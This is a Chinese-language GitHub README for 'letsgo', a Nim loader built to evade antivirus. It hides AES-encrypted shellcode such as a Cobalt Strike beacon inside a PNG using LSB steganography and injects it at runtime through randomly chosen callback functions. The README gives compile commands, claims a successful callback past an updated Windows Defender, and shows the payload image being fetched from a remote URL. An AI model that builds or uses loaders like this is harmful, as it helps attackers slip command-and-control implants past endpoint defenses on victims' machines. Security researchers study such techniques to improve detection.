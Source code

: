 # letsgo
Shellcode Injection via Callbacks and Steganography.
# nim-lang 免杀测试：回调函数结合隐写术

就是将 shellcode，比如，beacon.bin 隐藏到一张 PNG 图片中，当然要先经过 AES 加密后在嵌入图片。运行时再将 shellcode 提取出来，最终通过回调的方式注入 shellcode。

## 隐写术

本想直接使用 https://github.com/treeform/steganography ，但是却无情报错：

![https://github.com/treeform/flippy/issues/35](https://files-cdn.cnblogs.com/files/StudyCat/letsgo1.bmp)

阅读代码发现，其实就是将信息隐藏在 PNG 图片每个像素 RGBA 中的最低两位，所以一个像素就能隐藏8位也就是1个字节的数据。还有一个坑就是，如何识别嵌入了多少数据，最终决定用前8个字节保存嵌入数据的大小。这部分的代码保持在 lsb.nim 中。

加解密部分，用的是 AES256-CTR ，参考了OffensiveNim的 [encrypt_decrypt_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim) 

## 生成加密图片

编译 lsb.nim

nim c -d:realese --opt:size --cpu:amd64 lsb.nim

生成加密图片

![生成加密图片](https://files-cdn.cnblogs.com/files/StudyCat/2.bmp)

还原文件

![还原文件](https://files-cdn.cnblogs.com/files/StudyCat/3.bmp)

对比还原的文件和原来的文件发现hash一致，说明无误。

## 注入shellcode

注明：本地测试已将 windows 10 defender 更新至最新（如果一次不成功，可尝试第二次）。

目前一共内置17个通过回调注入shellcode的方法，运行时随机会选择一个。这部分的实现可以看我的上一篇文章 [Shellcode Injection via Callbacks](https://www.freebuf.com/articles/269158.html)

编译 letsgo.nim

nim c -d:realese -d:ssl --opt:size --cpu:amd64 letsgo.nim

![上线截图](https://files-cdn.cnblogs.com/files/StudyCat/4.bmp)

![上线截图](https://files-cdn.cnblogs.com/files/StudyCat/5.bmp)

除了可以通过本地文件上线之外，还可以将图片上传至云上，比如：

letsgo.exe https://www.test.com/images/logo.png 12345678

项目地址 https://github.com/StudyCat404/letsgo

## 引用

https://github.com/S3cur3Th1sSh1t/Nim_CBT_Shellcode  
https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection  
https://github.com/treeform/steganography  
https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim  
